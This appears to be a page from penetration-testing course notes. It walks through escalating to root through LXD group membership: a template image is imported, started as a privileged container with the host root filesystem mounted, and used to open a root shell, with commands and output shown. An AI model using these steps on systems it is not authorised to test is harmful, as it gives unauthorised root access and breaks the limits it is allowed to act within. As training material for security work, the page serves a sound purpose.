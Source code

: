     id
    
    uid=1000(container-user) gid=1000(container-user) groups=1000(container-user),116(lxd)

`Find Image`
**From here on**, there are now several ways in which we can exploit LXC/LXD. We can either create our own container and transfer it to the target system or use an existing container. Unfortunately, administrators often use templates that have little to no security. This attitude has the consequence that we already have tools that we can use against the system ourselves.

    cd ContainerImages
    ls
    
    ubuntu-template.tar.xz

`Import Image`
Such templates often do not have passwords, especially if they are uncomplicated test environments. These should be quickly accessible and uncomplicated to use.
If we are a little lucky and there is such a container on the system, it can be exploited. For this, we need to `import this container` as an image.

    lxc image import ubuntu-template.tar.xz --alias ubuntutemp
    lxc image list
    
    +-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
    |                ALIAS                | FINGERPRINT  | PUBLIC |               DESCRIPTION               | ARCHITECTURE |      TYPE       |   SIZE    |          UPLOAD DATE          |
    +-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
    | ubuntu/18.04 (v1.1.2)               | 623c9f0bde47 | no    | Ubuntu bionic amd64 (20221024_11:49)     | x86_64       | CONTAINER       | 106.49MB  | Oct 24, 2022 at 12:00am (UTC) |
    +-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+

`Create and Exploit`
After verifying that this image has been successfully imported, we can initiate the image and configure it by specifying the `security.privileged` flag and the root path for the container. This flag disables all isolation features that allow us to act on the host.

    lxc init ubuntutemp privesc -c security.privileged=true
    lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true

Once we have done that, we can start the container and log into it. In the container, we can then go to the path we specified to access the `resource` of the host system as `root`.

    lxc start privesc
    lxc exec privesc /bin/bash
    root@nix02:~# ls -l /mnt/root
    
    total 68
    lrwxrwxrwx   1 root root     7 Apr 23  2020 bin -> usr/bin
    drwxr-xr-x   4 root root  4096 Sep 22 11:34 boot
    drwxr-xr-x   2 root root  4096 Oct  6  2021 cdrom
    drwxr-xr-x  19 root root  3940 Oct 24 13:28 dev
    drwxr-xr-x 100 root root  4096 Sep 22 13:27 etc
    drwxr-xr-x   3 root root  4096 Sep 22 11:06 home
    lrwxrwxrwx   1 root root     7 Apr 23  2020 lib -> usr/lib
    lrwxrwxrwx   1 root root     9 Apr 23  2020 lib32 -> usr/lib32
    lrwxrwxrwx   1 root root     9 Apr 23  2020 lib64 -> usr/lib64
    lrwxrwxrwx   1 root root    10 Apr 23  2020 libx32 -> usr/libx32
    drwx------   2 root root 16384 Oct  6  2021 lost+found
    drwxr-xr-x   2 root root  4096 Oct 24 13:28 media
    drwxr-xr-x   2 root root  4096 Apr 23  2020 mnt
    drwxr-xr-x   2 root root  4096 Apr 23  2020 opt
    dr-xr-xr-x 307 root root     0 Oct 24 13:28 proc
    drwx------   6 root root  4096 Sep 26 21:11 root
    drwxr-xr-x  28 root root   920 Oct 24 13:32 run
    lrwxrwxrwx   1 root root     8 Apr 23  2020 sbin -> usr/sbin
    drwxr-xr-x   7 root root  4096 Oct  7  2021 snap